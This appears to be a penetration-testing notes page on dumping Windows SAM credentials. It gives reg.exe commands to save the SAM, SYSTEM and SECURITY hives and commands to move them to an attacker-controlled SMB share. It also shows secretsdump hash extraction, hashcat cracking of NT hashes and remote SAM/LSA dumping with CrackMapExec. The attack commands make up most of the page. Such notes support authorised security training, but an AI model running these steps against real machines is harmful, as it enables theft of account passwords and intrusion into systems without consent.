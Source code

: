 


# Attacking SAM

[See Windows credentials storage](windows-credentials-storage.md).

## Dumping SAM Locally

### 1. Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. 

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|


Launching CMD as an admin will allow us to run reg.exe to save copies of the registry hives.

```cmd-session
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Transfer the registry hives to our attacker machine, for instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move sam.save \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData
move security.save \\$ipAttacker\CompData
```


### 2. Dumping Hashes with Impacket's secretsdump.py

```bash
locate secretsdump 
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.


### 3. Cracking Hashes with Hashcat

[See hashcat](hashcat.md):

```bash
# Adding nthashes to a .txt File
# Copy paste them in hashestocrack.txt

# Hashcat them
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
# -m 1000: select module for NT hashes
```


## Dumping SAM Remotely

### With CrackMapExec

With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network. 

[Cheat sheet of CrackMapExec](crackmapexec.md).

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --sam

crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa

```
